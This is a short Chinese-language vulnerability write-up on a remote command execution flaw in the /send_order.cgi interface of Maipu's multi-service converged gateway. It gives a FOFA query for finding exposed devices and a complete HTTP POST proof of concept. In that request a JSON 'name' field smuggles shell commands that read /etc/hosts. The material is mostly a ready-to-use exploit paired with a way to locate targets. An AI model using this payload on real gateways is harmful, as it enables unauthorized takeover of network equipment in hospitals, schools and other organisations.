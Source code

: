 **fofa**

```
title="迈普多业务融合网关"
```

**一、漏洞简述**

迈普多业务融合网关拥有融合网关功能、精准流控、上网行为管理、智能选路…等强大功能，并支持对接迈普云平台，实现远程运维和集中管理，很好的满足了医疗/教育等场景要求的全面一体化的网络需求。其接口/send_order.cgi存在远程命令执行漏洞，攻击者可通过该漏洞获取系统权限。

**二、漏洞检测poc**

```yaml
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

{"opid":"1","name":";echo -n klmns:;cat /etc/hosts;","type":"rest"}
```

